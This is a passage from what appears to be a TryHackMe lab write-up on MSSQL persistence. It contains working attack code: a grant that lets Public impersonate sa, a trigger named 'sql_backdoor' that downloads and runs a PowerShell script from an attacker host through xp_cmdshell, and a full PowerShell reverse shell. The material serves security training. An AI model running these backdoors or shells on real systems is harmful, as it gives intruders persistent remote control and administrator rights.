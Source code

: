 ![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%201.png)

The second query we'll execute is to ensure that any website and any user accessing the database can run **xp_cmdshell** by granting privileges to all users to impersonate the **sa** (system administrator) user, which is the default database administrator, since only database users with the **sysadmin** role can run the **xp_cmdshell** procedure by default
```SQL
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%202.png)

The third query we'll execute is to specify and switch to the database that we want to execute the fourth query in, which was the **HRDB** database
```SQL
USE HRDB
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%203.png)

The fourth and last query we'll execute is to configure a trigger that'll download a PowerShell script that we'll create on our attack machine from our attack machine and then execute it whenever an **INSERT** action is made into the **HRDB** database's **Employees** table
```SQL
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://<ATTACK MACHINE IP>:8000/<POWERSHELL SCRIPT>.ps1'')"';
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%204.png)

4. `mousepad <POWERSHELL SCRIPT>.ps1` from our Linux attack machinea and insert the following reverse shell PowerShell payload inside 
```PowerShell
$client = New-Object System.Net.Sockets.TCPClient("<ATTACK MACHINE IP>",<PORT NUMBER>);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
```
